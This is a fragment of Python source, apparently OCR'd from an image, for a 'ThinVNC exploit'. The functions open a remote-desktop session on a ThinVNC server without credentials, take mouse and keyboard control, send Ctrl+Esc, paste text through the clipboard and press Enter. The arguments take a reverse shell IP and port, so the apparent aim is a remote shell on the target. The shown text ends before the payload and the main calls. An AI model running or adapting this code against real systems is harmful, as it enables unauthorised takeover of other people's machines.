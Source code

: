 ```python
    "Connection": "close",
}

def login_sid(base_url):
    url = base_url + "/cmd?cmd=connect&destAddr=poc&id=0"
    cookies = {"SID": ""}
    r = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
    #r = requests.get(url, headers=headers, cookies=cookies)

    return r.json()['id']


def start_sid(base_url, sid):

    url = base_url + "/cmd?cmd=start&mouseControl=true&kbdControl=true&quality=85&pixelFormat=0&monitor=0&id=%s" % sid
    cookies = {"SID": "%s" % sid}
    r = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
    #r = requests.get(url, headers=headers, cookies=cookies)
    time.sleep(2)


def send_ctrl_esc(base_url, sid):

    url = base_url + "/cmd?cmd=fkey&key=CtrlEsc&id=%s" % sid
    cookies = {"SID": "%s" % sid}
    requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
    #requests.get(url, headers=headers, cookies=cookies)
    time.sleep(2)


def send_text(base_url, sid, text):

    url = base_url + "/cmd?id=%s&cmd=cli&type=clipboard&action=paste" % sid
    cookies = {"SID": "%s" % sid}
    data = text
    requests.post(url, headers=headers, cookies=cookies, proxies=proxies, data=data)
    #requests.post(url, headers=headers, cookies=cookies, data=data)
    time.sleep(2)

def send_enter(base_url, sid):

    url = base_url + "/cmd?cmd=keyb&key=13&char=0&action=down&id=%s" % sid
    cookies = {"SID": "%s" % sid}
    requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
    #requests.get(url, headers=headers, cookies=cookies)
    time.sleep(2)



parser = argparse.ArgumentParser(description='ThinVNC exploit')

parser.add_argument('-s', '--server-ip', required=True, help='ThinVNC IP')
parser.add_argument('-p', '--server-port', required=True, help='ThinVNC PORT')

parser.add_argument('-r', '--reverse-ip', required=True, help='Reverse Shell IP')
parser.add_argument('-a', '--reverse-port', required=True, help='Reverse Shell PORT')

args = parser.parse_args()


url = 'http://%s:%s' % (args.server_ip,args.server_port)

```